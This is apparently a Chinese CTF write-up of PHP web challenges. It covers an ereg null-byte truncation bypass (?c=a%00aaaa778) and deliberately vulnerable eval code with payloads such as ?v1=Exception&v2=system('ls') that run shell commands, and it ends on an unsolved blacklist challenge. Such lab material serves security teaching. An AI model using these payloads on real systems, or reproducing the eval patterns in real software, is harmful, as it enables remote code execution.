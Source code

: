 * ereg — 正则表达式匹配
* ereg()函数用指定的模式搜索一个字符串中指定的字符串,如果匹配成功返回true,否则,则返回false。搜索字母的字符是大小写敏感的。 ereg函数存在NULL截断漏洞，**导致了正则过滤被绕过,所以可以使用%00截断正则匹配**

`0x36d` 是     `877`

所以构造

```
?c=a%00aaaa778
```

当通过`strrev` 和`intval` 的时候，为 877

## web109~反射类,异常处理

```php
<?php

highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/[a-zA-Z]+/', $v1) && preg_match('/[a-zA-Z]+/', $v2)){
            eval("echo new $v1($v2());");
    }

}

?>
```

payload:

```php
?v1=ReflectionClass&v2=system('ls')
    
?v1=Exception&v2=system('ls')
```

## web110~FilesystemIterator类读取文件

```php
<?php

highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v1)){
            die("error v1");
    }
    if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v2)){
            die("error v2");
    }

    eval("echo new $v1($v2());");

}

?>
```